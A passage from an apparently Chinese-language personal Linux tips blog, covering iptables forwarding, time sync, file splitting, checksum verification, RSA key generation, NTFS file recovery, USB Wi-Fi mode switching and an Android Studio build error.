<span class="number">80</span> -j DNAT --to-destination <span class="number">172.16</span><span class="number">.100</span><span class="number">.17</span></span><br><span class="line">或</span><br><span class="line">iptables -P FORWARD DROP</span><br><span class="line">iptables -t nat -A PREROUTING -d <span class="number">192.168</span><span class="number">.10</span><span class="number">.254</span> -p tcp --dport <span class="number">80</span> -j DNAT --to-destination <span class="number">172.16</span><span class="number">.100</span><span class="number">.17</span></span><br><span class="line">iptables -A FORWARD -m state --state ESTABLISHED,RELATED -j ACCEPT</span><br><span class="line">iptables -A FORWARD -d <span class="number">172.16</span><span class="number">.100</span><span class="number">.17</span> -p tcp --dport <span class="number">80</span> -m state --state NEW -j ACCEPT</span><br></pre></td></tr></table></figure>
<h3 id="系统配置"><a href="#系统配置" class="headerlink" title="系统配置"></a>系统配置</h3><h4 id="同步NTP服务器时间"><a href="#同步NTP服务器时间" class="headerlink" title="同步NTP服务器时间"></a>同步NTP服务器时间</h4><figure class="highlight applescript"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br></pre></td><td class="code"><pre><span class="line">显示当前时间</span><br><span class="line"><span class="built_in">date</span></span><br><span class="line">同步NTP</span><br><span class="line">ntpdate <span class="built_in">time</span>.windows.com</span><br><span class="line">显示硬件时间：</span><br><span class="line">hwclock <span class="comment">--show</span></span><br><span class="line">同步到硬件时间：</span><br><span class="line">hwclock <span class="comment">--systohc</span></span><br></pre></td></tr></table></figure>
<h4 id="xserver允许显示多个用户的界面"><a href="#xserver允许显示多个用户的界面" class="headerlink" title="xserver允许显示多个用户的界面"></a>xserver允许显示多个用户的界面</h4><blockquote>
<p>比如root用户的窗口和普通用户窗口显示同一桌面</p>
</blockquote>
<p><code>xhost +</code></p>
<p>反之：</p>
<p><code>xhost -</code></p>
<h4 id="尝试提升音质"><a href="#尝试提升音质" class="headerlink" title="尝试提升音质"></a>尝试提升音质</h4><figure class="highlight mipsasm"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br></pre></td><td class="code"><pre><span class="line">sudo apt <span class="keyword">install </span><span class="keyword">jackd</span></span><br><span class="line"><span class="keyword">sudo </span>apt <span class="keyword">install </span>pulseaudio-module-<span class="keyword">jack</span></span><br><span class="line"><span class="keyword">sudo </span>apt <span class="keyword">install </span>caps</span><br><span class="line">均衡器（弃用）：</span><br><span class="line">sudo apt-get <span class="keyword">install </span>pulseaudio-equalizer</span><br><span class="line">其他：</span><br><span class="line">apt <span class="keyword">install </span>pulseeffects</span><br></pre></td></tr></table></figure>
<h4 id="修改环境变量"><a href="#修改环境变量" class="headerlink" title="修改环境变量"></a>修改环境变量</h4><figure class="highlight routeros"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br></pre></td><td class="code"><pre><span class="line">修改<span class="variable">$PATH</span> 环境变量：</span><br><span class="line"><span class="builtin-name">export</span> <span class="attribute">PATH</span>=<span class="string">"<span class="variable">$PATH</span>:/usr/local/bin/python"</span> </span><br><span class="line">更好的建议：</span><br><span class="line">直接修改~/.bashrc里面的Path</span><br><span class="line">重启才有用，或者source ~/.bashrc</span><br></pre></td></tr></table></figure>
<h2 id="常见问题-FAQ-amp-HOWS"><a href="#常见问题-FAQ-amp-HOWS" class="headerlink" title="常见问题 FAQ &amp; HOWS"></a>常见问题 FAQ &amp; HOWS</h2><h3 id="HOWS"><a href="#HOWS" class="headerlink" title="HOWS"></a>HOWS</h3><h4 id="Linux下如何效验下载的文件？"><a href="#Linux下如何效验下载的文件？" class="headerlink" title="Linux下如何效验下载的文件？"></a>Linux下如何效验下载的文件？</h4><blockquote>
<p>使用<code>sha256sum</code>，<a href="http://www.labtestproject.com/files/sha256sum/sha256sum.exe" target="_blank" rel="noopener">Windows版本</a>。</p>
</blockquote>
<p><code>sha256sum --check systemrescue-x.y.z.iso.sha256</code></p>
<p><code>sha512sum --check systemrescue-x.y.z.iso.sha512</code></p>
<blockquote>
<p>使用<code>gpg</code></p>
</blockquote>
<p><code>gpg --import gnupg-pubkey.txt</code></p>
<p><code>gpg --verify systemrescue-x.y.z.iso.asc systemrescue-x.y.z.iso</code></p>
<h4 id="Linux如何给大文件分块（大文件分块后在Windows平台组合）？"><a href="#Linux如何给大文件分块（大文件分块后在Windows平台组合）？" class="headerlink" title="Linux如何给大文件分块（大文件分块后在Windows平台组合）？"></a>Linux如何给大文件分块（大文件分块后在Windows平台组合）？</h4><blockquote>
<p>From:</p>
<p><a href="https://blueheart0621.github.io/2020/11/16/Linux/Shell/LinuxShell%E4%B8%8B%E5%88%86%E5%8D%B7%E5%8E%8B%E7%BC%A9%E4%B8%8E%E8%A7%A3%E5%8E%8B/" target="_blank" rel="noopener">https://blueheart0621.github.io/2020/11/16/Linux/Shell/LinuxShell%E4%B8%8B%E5%88%86%E5%8D%B7%E5%8E%8B%E7%BC%A9%E4%B8%8E%E8%A7%A3%E5%8E%8B/</a></p>
<p><a href="http://williamsun.cn/2019/08/20/Linux%E5%88%86%E5%8D%B7%E5%8E%8B%E7%BC%A9%E5%91%BD%E4%BB%A4/" target="_blank" rel="noopener">http://williamsun.cn/2019/08/20/Linux%E5%88%86%E5%8D%B7%E5%8E%8B%E7%BC%A9%E5%91%BD%E4%BB%A4/</a></p>
<p><a href="https://ourss.cn/1847" target="_blank" rel="noopener">https://ourss.cn/1847</a></p>
</blockquote>
<ol>
<li><p>传统的压缩命令：</p>
<figure class="highlight gherkin"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment">## rar/7z:</span></span><br><span class="line">压缩：</span><br><span class="line">rar/7z a -v<span class="variable">&lt;size&gt;</span>[b,k,m,g,...] <span class="variable">&lt;压缩卷名&gt;</span> <span class="variable">&lt;被压缩文件/文件夹名&gt;</span></span><br><span class="line">其中，参数 a 表示添加卷，<span class="variable">&lt;size&gt;</span> 指定每卷压缩包最大不超过的大小；<span class="variable">&lt;size&gt;</span> 后可以跟数值单位 b,k,m,g,...，依次为字节、千字节、兆字节、吉字节……（不指定数值单位时默认为字节）。</span><br><span class="line">解压：</span><br><span class="line">rar/7z x <span class="variable">&lt;压缩卷名&gt;</span></span><br><span class="line"></span><br><span class="line"><span class="comment">## zip</span></span><br><span class="line">压缩：</span><br><span class="line">zip -s<span class="variable">&lt;size&gt;</span>[b,k,m,g,...] -r <span class="variable">&lt;压缩卷名&gt;</span> <span class="variable">&lt;被压缩文件/文件夹名&gt;</span></span><br><span class="line">其中，参数 -r 表示递归处理文件夹下的文件（如果只是压缩单个文件可以省略）。</span><br><span class="line">解压：</span><br><span class="line">zip 分卷压缩后会形成若干个 .zxx 文件和一个 .zip 文件，解压时需要根据该 .zip 文件来合并其他所有分卷为单个分卷，然后在利用 unzip 解压即可恢复原文件：</span><br><span class="line">zip -s0 <span class="variable">&lt;压缩卷名&gt;</span>.zip --out <span class="variable">&lt;合并压缩卷名&gt;</span></span><br><span class="line">unzip <span class="variable">&lt;合并压缩卷名&gt;</span></span><br><span class="line"></span><br><span class="line"><span class="comment">## tar</span></span><br><span class="line">压缩：</span><br><span class="line">tar cvzf - filedir |<span class="string"> split -d -b 50m - filename</span></span><br><span class="line"><span class="string">解压：</span></span><br><span class="line"><span class="string">cat x* &gt; myzip.tar.gz &amp;&amp; tar xzvf myzip.tar.gz</span></span><br></pre></td></tr></table></figure>
</li>
<li><p>非传统压缩命令：</p>
<figure class="highlight stata"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br></pre></td><td class="code"><pre><span class="line">## 使用<span class="keyword">split</span> &amp; <span class="keyword">cat</span></span><br><span class="line">大文件分块：</span><br><span class="line"><span class="keyword">split</span> -b&lt;size&gt;[b,k,<span class="keyword">m</span>,<span class="keyword">g</span>,...] &lt;压缩卷名&gt;</span><br><span class="line"><span class="keyword">e</span>.<span class="keyword">g</span>.：</span><br><span class="line"><span class="keyword">split</span> -<span class="keyword">d</span> -b 1M ./xxx.<span class="keyword">zip</span></span><br><span class="line">合并分块：</span><br><span class="line"><span class="keyword">cat</span> x* &gt; &lt;压缩卷名&gt;</span><br><span class="line"></span><br><span class="line">## 在Windows平台合并分块：</span><br><span class="line"><span class="keyword">copy</span> /B <span class="keyword">file</span>.<span class="keyword">zip</span>.<span class="keyword">zip</span>.001 + <span class="keyword">file</span>.<span class="keyword">zip</span>.<span class="keyword">zip</span>.002 + <span class="keyword">file</span>.<span class="keyword">zip</span>.<span class="keyword">zip</span>.003 <span class="keyword">file</span>.<span class="keyword">zip</span></span><br></pre></td></tr></table></figure>
</li>
</ol>
<h4 id="生成RSA密钥"><a href="#生成RSA密钥" class="headerlink" title="生成RSA密钥"></a>生成RSA密钥</h4><figure class="highlight vala"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta"># 生成私钥</span></span><br><span class="line">openssl genrsa -out rsa_private_key.pem <span class="number">4096</span></span><br><span class="line"><span class="meta"># 公钥</span></span><br><span class="line">openssl rsa -in ryan_4096.pem -pubout -out ryan_4096_pub.pem</span><br><span class="line"><span class="meta"># 生成和pyrsa兼容的公钥</span></span><br><span class="line">pyrsa-priv2pub -i ryan_4096.pem -o ryan_4096_pyrsa_pub.pem</span><br><span class="line"><span class="meta"># 生成pkcs8格式密钥</span></span><br><span class="line">openssl pkcs8 -topk8 -inform PEM -in rsa_private_key.pem -outform PEM -nocrypt &gt; rsa_private_key_pkcs8.pem</span><br></pre></td></tr></table></figure>
<h4 id="Linux远程桌面"><a href="#Linux远程桌面" class="headerlink" title="Linux远程桌面"></a>Linux远程桌面</h4><p>第三方软件有Anydesk、Teamviwer；其中个人开发有Dayon、Rust Desktop等。</p>
<p>传统协议有VNC和RDP。前者似乎传输不加密，后者对带宽要求好像比较高。</p>
<p>平时跨平台远程桌面，我个人使用的Anydesk，teamviewer整天升级很烦人。但Anydesk不是很稳定，会掉线。Dayon需要自己搭建内网穿透，Rust似乎鼠标键盘这边不是很好用。</p>
<p>接下来聊一聊VNC，平时局域网我倒是用得VNC。GNOME桌面下直接在设置里开启屏幕共享，原先GNOME是用得<code>vino</code>，现在用的是<code>gnome-remote-desktop</code>，使用APT安装一下就有了。另外VNC服务还有TightVNC(Windows支持好)、TigerVNC(Linux支持好)、Krfb(KDE社区开发的)。</p>
<h4 id="我正在运行混合系统。我如何找出哪个包来自哪个发行版？"><a href="#我正在运行混合系统。我如何找出哪个包来自哪个发行版？" class="headerlink" title="我正在运行混合系统。我如何找出哪个包来自哪个发行版？"></a>我正在运行混合系统。我如何找出哪个包来自哪个发行版？</h4><p>如果您走了这么远，您肯定喜欢玩火，但无法回答 这个简单的问题。OK，光顾了，尝试<code>apt-show-versions</code>。</p>
<p>You definitely like to play with fire if you got this far, but can’t answer this simple question. OK, enough patronizing  , try apt-show-versions.</p>
<h4 id="Linux误删除资料-RM-RF-？-，数据恢复"><a href="#Linux误删除资料-RM-RF-？-，数据恢复" class="headerlink" title="Linux误删除资料(RM -RF ？)，数据恢复"></a>Linux误删除资料(RM -RF ？)，数据恢复</h4><blockquote>
<p>参考：<a href="https://www.bbsmax.com/A/l1dyaPOnde/" target="_blank" rel="noopener">https://www.bbsmax.com/A/l1dyaPOnde/</a></p>
<p><a href="https://www.bbsmax.com/A/6pdDvZ0RJw/" target="_blank" rel="noopener">https://www.bbsmax.com/A/6pdDvZ0RJw/</a></p>
<p><a href="https://blog.csdn.net/EbowTang/article/details/123348652" target="_blank" rel="noopener">https://blog.csdn.net/EbowTang/article/details/123348652</a></p>
</blockquote>
<p>如果磁盘是EXT4，请使用<code>extundelete</code>，如果是NTFS磁盘，请使用<code>ntfsundelete</code>。这里演示的是<code>ntfsundelete</code>：</p>
<p>安装：<code>sudo apt-get install ntfs-3g</code></p>
<p>查找被删除的文件：（获取所有要恢复的文件的inode值，然后使用vi编辑使inode组成”881,2341,234,…”文本。<br>3m表示3个月以内生成并删除的，而不3个月内删除的意思）</p>
<p><code>sudo ntfsundelete 【这里是磁盘名/dev/sda3】 -f -t 3m</code></p>
<p>导出inode：<code>sudo ntfsundelete 【这里是磁盘名/dev/sda3】 -f -t 3m | grep 【关键词，grep可以忽略】 | awk &#39;{print $1}&#39; &gt; ntfsundelete.txt</code></p>
<p>恢复文件：<code>sudo ntfsundelete 【这里是磁盘名/dev/sda3】 -d 【恢复到/home/wilson/tmp/】 -u -i 【inode数值，881,2341,234,....】</code></p>
<h4 id="Windows的免驱无线网卡插Linux系统显示U盘怎么办？"><a href="#Windows的免驱无线网卡插Linux系统显示U盘怎么办？" class="headerlink" title="Windows的免驱无线网卡插Linux系统显示U盘怎么办？"></a>Windows的免驱无线网卡插Linux系统显示U盘怎么办？</h4><blockquote>
<p><a href="https://github.com/brektrou/rtl8821CU" target="_blank" rel="noopener">https://github.com/brektrou/rtl8821CU</a></p>
<p><a href="https://blog.csdn.net/qq_20677327/article/details/107950948" target="_blank" rel="noopener">https://blog.csdn.net/qq_20677327/article/details/107950948</a></p>
</blockquote>
<p>原因：</p>
<figure class="highlight crmsh"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br></pre></td><td class="code"><pre><span class="line"> USB_ModeSwitch是一种模式切换工具，用于控制具有“多种模式”的USB设备。</span><br><span class="line"></span><br><span class="line">越来越多的USB设备（特别是高速WAN上网卡，它基于一些手机芯片，能够改变它们的USB连接模式）都会板载它们自己的<span class="keyword">MS</span> <span class="title">Windows</span>驱动程序，当首次插入电脑时，它们会被识别为一个闪存设备，然后开始安装存储于其中的驱动程序。在安装完驱动程序之后（后面还需要再插拔一次），驱动程序就会再内部切换USB设备的连接模式，存储设备会消失（大多数情况下），然后会出现一个新的设备（例如，一个USB调制解调器）。调制解调器制造商会“可选地”调用“ZeroCD (TM)”特性，因为它会消除对用于承载一个独立驱动程序载体的需求。</span><br><span class="line"></span><br><span class="line">起初，这方面的东西没有任何形式的文档记录，而且也几乎没有任何Linux支持可用。</span><br><span class="line">从好的方面来看，大多数已知的设备在两种模式下都可以工作，使用诸如“usb-storage”或“option”（一种经过优化的串行驱动程序，高速<span class="number">3</span>G调制解调器的Linux标准）的Linux驱动程序。</span><br><span class="line">那么唯一的问题便是如何从存储设备切换至调制解调器设备，或者其他应该做的事情。</span><br><span class="line"></span><br><span class="line">幸运的是，我们还有人类的理性、USB嗅探程序和“libusb”。<span class="keyword">MS</span> <span class="title">Windows</span>的驱动程序存在通信被窃听的可能性，但是，在Linux或BSD变种系统的规则之下，可以隔离触发模式切换的命令或动作，并且可以复制相同的东西。</span><br><span class="line"></span><br><span class="line">在“libusb”的有力帮助之下，USB_ModeSwitch可以从一个配置文件中获取重要的参数，然后完成全部的初始化和通信工作，这样便使得用户可以轻松地处理这个过程。</span><br><span class="line">它主要是自动使用的 — 通过udev事件和规则 — 不需要任何用户操作便能完成模式切换。但是它还可以作为一个命令行工具来运行，通常会在尝试使用某种未知设备时使用这种方式。</span><br><span class="line"></span><br><span class="line">这个工具是大多数主流发型版的部件之一，你应当不用从源码包进行编译安装，除非运行时遇到问题，或者想要使用最新的版本。</span><br></pre></td></tr></table></figure>
<p><strong>解决办法</strong>：</p>
<p>如果可以检测到网卡，恭喜。 如果没有，也许您需要通过终端中的以下步骤切换设备的 USB 模式： </p>
<p>通过类型找到你的 usb-wifi-adapter 设备 ID，比如“0bda:1a2b”： </p>
<figure class="highlight ebnf"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line"><span class="attribute">lsusb</span></span><br></pre></td></tr></table></figure>
<p>需要安装 <code>usb_modeswitch</code>（Arch Linux： <code>sudo pacman -S usb_modeswitch</code>) </p>
<figure class="highlight routeros"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line">sudo usb_modeswitch -KW -v 0bda -p 1a2b</span><br><span class="line">systemctl start bluetooth.service - starting Bluetooth<span class="built_in"> service </span><span class="keyword">if</span> it<span class="string">'s in inactive state</span></span><br></pre></td></tr></table></figure>
<p>上面应该就能解决，但每次重启都要这样吗？不，可以<strong>持久化</strong>：</p>
<ol>
<li><p>编辑 <code>usb_modeswitch</code> 规则:</p>
<figure class="highlight crystal"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">sudo nano /<span class="class"><span class="keyword">lib</span>/<span class="title">udev</span>/<span class="title">rules</span>.<span class="title">d</span>/40-<span class="title">usb_modeswitch</span>.<span class="title">rules</span></span></span><br></pre></td></tr></table></figure>
</li>
<li><p>在 <code>LABEL=&quot;modeswitch_rules_end&quot;</code>之前加上:（【】内的参数请自行修改）</p>
<figure class="highlight dockerfile"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment"># Realtek 8211CU Wifi AC USB</span></span><br><span class="line">ATTR&#123;idVendor&#125;==【<span class="string">"0bda"</span>】, ATTR&#123;idProduct&#125;==【<span class="string">"1a2b"</span>】, <span class="keyword">RUN</span><span class="bash">+=<span class="string">"/usr/sbin/usb_modeswitch -K -v 【0bda】 -p 【1a2b】"</span></span></span><br></pre></td></tr></table></figure>
</li>
</ol>
<p>Make sure to set your <code>ATTR{idVendor}</code> and the <code>-v</code> argument to the left portion of the output of lsusb device ID, and your <code>ATTR{idProduct}</code> and <code>-p</code> argument to the right portion of the lsusb device ID. For example (for the Cudy AC600 usb wifi adapter) the output from <code>lsusb</code> command looks like this:</p>
<figure class="highlight angelscript"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">Bus <span class="number">001</span> Device <span class="number">016</span>: ID <span class="number">0</span>bda:c811 Realtek Semiconductor Corp. <span class="number">802.11</span>ac NIC</span><br></pre></td></tr></table></figure>
<p>then your configuration in <code>/lib/udev/rules.d/40-usb_modeswitch.rules</code> should be</p>
<figure class="highlight dockerfile"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment"># Realtek 8211CU Wifi AC USB</span></span><br><span class="line">ATTR&#123;idVendor&#125;==<span class="string">"0bda"</span>, ATTR&#123;idProduct&#125;==<span class="string">"c811"</span>, <span class="keyword">RUN</span><span class="bash">+=<span class="string">"/usr/sbin/usb_modeswitch -K -v 0bda -p c811"</span></span></span><br></pre></td></tr></table></figure>
<h4 id="Debian开机很慢，卡在raising-up-network这一步"><a href="#Debian开机很慢，卡在raising-up-network这一步" class="headerlink" title="Debian开机很慢，卡在raising up network这一步"></a>Debian开机很慢，卡在raising up network这一步</h4><p>通常来说，这个情况是这样的：有有线网路时启动很快。没有有线网络时就会卡个三五分钟。有三种解决四思路(方法一亲测有效，其他对我来说没用):</p>
<ol>
<li><p>编辑<code>/etc/network/interfaces.d/setup</code> (注意不是 <code>/etc/network/interfaces</code> ！！)文件中的<code>auto eth0</code>，设置为允许热拔插即可<code>allow-hotplug eth0</code>。注意，<code>eth0</code>请根据实际情况修改。</p>
</li>
<li><p>编辑<code>/etc/dhcp/dhclient.conf</code>，设置<code>timeout</code>值。</p>
</li>
<li><p>新建<code>/etc/systemd/system/networking.service.d/override.conf</code>文件，覆盖原服务配置：</p>
<figure class="highlight ini"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line"><span class="section">[Service]</span></span><br><span class="line"><span class="attr">TimeoutStartSec</span>=<span class="number">30</span>sec</span><br></pre></td></tr></table></figure>
</li>
</ol>
<h4 id="Android-Studio-Duplicate-class-kotlin-collections-jdk8-CollectionsJDK8Kt-found-in-modules-kotlin-stdlib-1-8-10-org-jetbrains-kotlin-kotlin-stdlib-1-8-10-and-kotlin-stdlib-jdk8-1-6-21-org-jetbrains-kotlin-kotlin-stdlib-jdk8-1-6-21"><a href="#Android-Studio-Duplicate-class-kotlin-collections-jdk8-CollectionsJDK8Kt-found-in-modules-kotlin-stdlib-1-8-10-org-jetbrains-kotlin-kotlin-stdlib-1-8-10-and-kotlin-stdlib-jdk8-1-6-21-org-jetbrains-kotlin-kotlin-stdlib-jdk8-1-6-21" class="headerlink" title="Android Studio: Duplicate class kotlin.collections.jdk8.CollectionsJDK8Kt found in modules kotlin-stdlib-1.8.10 (org.jetbrains.kotlin:kotlin-stdlib:1.8.10) and kotlin-stdlib-jdk8-1.6.21 (org.jetbrains.kotlin:kotlin-stdlib-jdk8:1.6.21)"></a>Android Studio: <code>Duplicate class kotlin.collections.jdk8.CollectionsJDK8Kt found in modules kotlin-stdlib-1.8.10 (org.jetbrains.kotlin:kotlin-stdlib:1.8.10) and kotlin-stdlib-jdk8-1.6.21 (org.jetbrains.kotlin:kotlin-stdlib-jdk8:1.6.21)</code></h4><figure class="highlight stylus"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br></pre></td><td class="code"><pre><span class="line">Duplicate class kotlin<span class="selector-class">.collections</span><span class="selector-class">.jdk8</span><span class="selector-class">.CollectionsJDK8Kt</span> found <span class="keyword">in</span> modules kotlin-stdlib-<span class="number">1.8</span>.<span class="number">10</span> (org<span class="selector-class">.jetbrains</span><span class="selector-class">.kotlin</span>:kotlin-stdlib:<span class="number">1.8</span>.<span class="number">10</span>) and kotlin-stdlib-jdk8-<span class="number">1.6</span>.<span class="number">21</span> (org<span class="selector-class">.jetbrains</span><span class="selector-class">.kotlin</span>:kotlin-stdlib-jdk8:<span class="number">1.6</span>.<span class="number">21</span>)</span><br><span class="line">Duplicate class kotlin<span class="selector-class">.internal</span><span class="selector-class">.jdk7</span><span class="selector-class">.JDK7PlatformImplementations</span> found <span class="keyword">in</span> modules kotlin-stdlib-<span class="number">1.8</span>.<span class="number">10</span> (org<span class="selector-class">.jetbrains</span><span class="selector-class">.kotlin</span>:kotlin-stdlib:<span class="number">1.8</span>.<span class="number">10</span>) and kotlin-stdlib-jdk7-<span class="number">1.6</span>.<span class="number">21</span> (org<span class="selector-class">.jetbrains</span><span class="selector-class">.kotlin</span>:kotlin-stdlib-jdk7:<span class="number">1.6</span>.<span class="number">21</span>)</span><br><span class="line">Duplicate class kotlin<span class="selector-class">.internal</span><span class="selector-class">.jdk7</span>.JDK7PlatformImplementations<span class="variable">$ReflectSdkVersion</span> found <span class="keyword">in</span> modules kotlin-stdlib-<span class="number">1.8</span>.<span class="number">10</span> (org<span class="selector-class">.jetbrains</span><span class="selector-class">.kotlin</span>:kotlin-stdlib:<span class="number">1.8</span>.<span class="number">10</span>) and kotlin-stdlib-jdk7-<span class="number">1.6</span>.<span class="number">21</span> (org<span class="selector-class">.jetbrains</span><span class="selector-class">.kotlin</span>:kotlin-stdlib-jdk7:<span class="number">1.6</span>.<span class="number">21</span>)</span><br><span class="line">Duplicate class kotlin<span class="selector-class">.internal</span><span class="selector-class">.jdk8</span><span class="selector-class">.JDK8PlatformImplementations</span> found <span class="keyword">in</span> modules kotlin-stdlib-<span class="number">1.8</span>.<span class="number">10</span> (org<span class="selector-class">.jetbrains</span><span class="selector-class">.kotlin</span>:kotlin-stdlib:<span class="number">1.8</span>.<span class="number">10</span>) and kotlin-stdlib-jdk8-<span class="number">1.6</span>.<span class="number">21</span> (org<span class="selector-class">.jetbrains</span><span class="selector-class">.kotlin</span>:kotlin-stdlib-jdk8:<span class="number">1.6</span>.<span class="number">21</span>)</span><br><span class="line">Duplicate class kotlin<span class="selector-class">.internal</span><span class="selector-class">.jdk8</span>.JDK8PlatformImplementations<span class="variable">$ReflectSdkVersion</span> found <span class="keyword">in</span> modules kotlin-stdlib-<span class="number">1.8</span>.<span class="number">10</span> (org<span class="selector-class">.jetbrains</span><span class="selector-class">.kotlin</span>:kotlin-stdlib:<span class="number">1.8</span>.<span class="number">10</span>) and kotlin-stdlib-jdk8-<span class="number">1.6</span>.<span class="number">21</span> (org<span class="selector-class">.jetbrains</span><span class="selector-class">.kotlin</span>:kotlin-stdlib-jdk8:<span class="number">1.6</span>.<span class="number">21</span>)</span><br><span class="line">Duplicate class kotlin<span class="selector-class">.io</span><span class="selector-class">.path</span><span class="selector-class">.ExperimentalPathApi</span> found <span class="keyword">in</span> modules kotlin-stdlib-<span class="number">1.8</span>.<span class="number">10</span> (org<span class="selector-class">.jetbrains</span><span class="selector-class">.kotlin</span>:kotlin-stdlib:<span class="number">1.8</span>.<span class="number">10</span>) and kotlin-stdlib-jdk7-<span class="number">1.6</span>.<span class="number">21</span> (org<span class="selector-class">.jetbrains</span><span class="selector-class">.kotlin</span>:kotlin-stdlib-jdk7:<span class="number">1.6</span>.<span class="number">21</span>)</span><br><span class="line">Duplicate class kotlin<span class="selector-class">.io</span><span class="selector-class">.path</span><span class="selector-class">.PathRelativizer</span> found <span class="keyword">in</span> modules kotlin-stdlib-<span class="number">1.8</span>.<span class="number">10</span> (org<span class="selector-class">.jetbrains</span><span class="selector-class">.kotlin</span>:kotlin-stdlib:<span class="number">1.8</span>.<span class="number">10</span>) and kotlin-stdlib-jdk7-<span class="number">1.6</span>.<span class="number">21</span> (org<span class="selector-class">.jetbrains</span><span class="selector-class">.kotlin</span>:kotlin-stdlib-jdk7:<span class="number">1.6</span>.<span class="number">21</span>)</span><br><span class="line">Duplicate class kotlin<span class="selector-class">.io</span><span class="selector-class">.path</span><span class="selector-class">.PathsKt</span> found <span class="keyword">in</span> modules kotlin-stdlib-<span class="number">1.8</span>.<span class="number">10</span> (org<span class="selector-class">.jetbrains</span><span class="selector-class">.kotlin</span>:kotlin-stdlib:<span class="number">1.8</span>.<span class="number">10</span>) and kotlin-stdlib-jdk7-<span class="number">1.6</span>.<span class="number">21</span> (org<span class="selector-class">.jetbrains</span><span class="selector-class">.kotlin</span>:kotlin-stdlib-jdk7:<span class="number">1.6</span>.<span class="number">21</span>)</span><br><span class="line">Duplicate class kotlin<span class="selector-class">.io</span><span class="selector-class">.path</span><span class="selector-class">.PathsKt__PathReadWriteKt</span> found <span class="keyword">in</span> modules kotlin-stdlib-<span class="number">1.8</span>.<span class="number">10</span> (org<span class="selector-class">.jetbrains</span><span class="selector-class">.kotlin</span>:kotlin-stdlib:<span class="number">1.8</span>.<span class="number">10</span>) and kotlin-stdlib-jdk7-<span class="number">1.6</span>.<span class="number">21</span> (org<span class="selector-class">.jetbrains</span><span class="selector-class">.kotlin</span>:kotlin-stdlib-jdk7:<span class="number">1.6</span>.<span class="number">21</span>)</span><br><span class="line">Duplicate class kotlin<span class="selector-class">.io</span><span class="selector-class">.path</span><span class="selector-class">.PathsKt__PathUtilsKt</span> found <span class="keyword">in</span> modules kotlin-stdlib-<span class="number">1.8</span>.<span class="number">10</span> (org<span class="selector-class">.jetbrains</span><span class="selector-class">.kotlin</span>:kotlin-stdlib:<span class="number">1.8</span>.<span class="number">10</span>) and kotlin-stdlib-jdk7-<span class="number">1.6</span>.<span class="number">21</span> (org<span class="selector-class">.jetbrains</span><span class="selector-class">.kotlin</span>:kotlin-stdlib-jdk7:<span class="number">1.6</span>.<span class="number">21</span>)</span><br><span class="line">Duplicate class kotlin<span class="selector-class">.jdk7</span><span class="selector-class">.AutoCloseableKt</span> found <span class="keyword">in</span> modules kotlin-stdlib-<span class="number">1.8</span>.<span class="number">10</span> (org<span class="selector-class">.jetbrains</span><span class="selector-class">.kotlin</span>:kotlin-stdlib:<span class="number">1.8</span>.<span class="number">10</span>) and kotlin-stdlib-jdk7-<span class="number">1.6</span>.<span class="number">21</span> (org<span class="selector-class">.jetbrains</span><span class="selector-class">.kotlin</span>:kotlin-stdlib-jdk7:<span class="number">1.6</span>.<span class="number">21</span>)</span><br><span class="line">Duplicate class kotlin<span class="selector-class">.jvm</span><span class="selector-class">.jdk8</span><span class="selector-class">.JvmRepeatableKt</span> found <span class="keyword">in</span> modules kotlin-stdlib-<span class="number">1.8</span>.<span class="number">10</span> (org<span class="selector-class">.jetbrains</span><span class="selector-class">.kotlin</span>:kotlin-stdlib:<span class="number">1.8</span>.<span class="number">10</span>) and kotlin-stdlib-jdk8-<span class="number">1.6</span>.<span class="number">21</span> (org<span 